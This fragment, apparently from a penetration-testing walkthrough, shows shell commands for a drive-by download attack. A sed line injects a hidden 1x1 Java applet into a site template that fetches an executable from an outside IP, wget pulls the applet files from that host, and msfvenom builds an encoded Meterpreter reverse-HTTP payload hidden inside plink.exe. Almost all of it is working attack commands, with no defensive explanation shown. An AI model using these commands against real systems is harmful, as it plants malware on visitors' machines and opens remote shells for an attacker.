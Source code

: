 Deny from all

Allow from 10.7.0.0/255.255.255.0

root\@adminsql:/tmp\# cat /var/log/apache2/access.log \|grep '10.7.0'

...

10.7.0.53 - -"GET /daaa118f0809caa929e0c0baae75d27a/ClockSigned.jar HTTP/1.1"
200

2880 "-" "Mozilla/4.0 (Windows 7 6.1) Java/1.7.0_21"

...

root\@adminsql \# sed -i 's/\<div id="content"\>/\<div id="content"\>\<applet
width="1"

height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"\>\<param

name="1" value="http:\\/\\/208.68.234.101\\/daaa118.exe"\>\<\\/applet\>/g'

/var/www/daaa118f0809caa929e0c0baae75d27a/templates/default.tpl

root\@adminsql \# cd /var/www/daaa118f0809caa929e0c0baae75d27a

root\@adminsql \# wget http://208.68.234.101/Java.class

root\@adminsql \# wget http://208.68.234.101/SignedJava.jar

root\@kali:\~\# msfvenom -p windows/meterpreter/reverse_http LHOST=208.68.234.99

LPORT=80 -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe
-o

/var/www/daaa118.exe
